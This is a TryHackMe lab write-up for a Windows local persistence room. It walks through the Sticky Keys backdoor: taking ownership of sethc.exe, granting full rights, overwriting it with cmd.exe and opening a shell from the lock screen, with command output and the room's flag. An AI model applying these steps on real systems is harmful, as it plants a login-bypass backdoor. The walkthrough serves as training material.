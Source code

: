 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Stickey Keys
1. Started this room's machine
2. `takeown /f c:\Windows\System32\sethc.exe`
```PowerShell
C:\Users\Administrator>takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "WPERSISTENCE\Administrator".
```
3. `icacls C:\Windows\System32\sethc.exe /grant Administrator:F`
```PowerShell
C:\Users\Administrator>icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files
```
4. `copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe`
```PowerShell
C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): Yes
        1 file(s) copied.
```
5. Lock you screen and press **SHIFT** five times

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.3.png) 

6. `C:\flags\flag14.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag14.exe
THM{BREAKING_THROUGH_LOGIN}
```

# Utilman
1. Started this room's machine
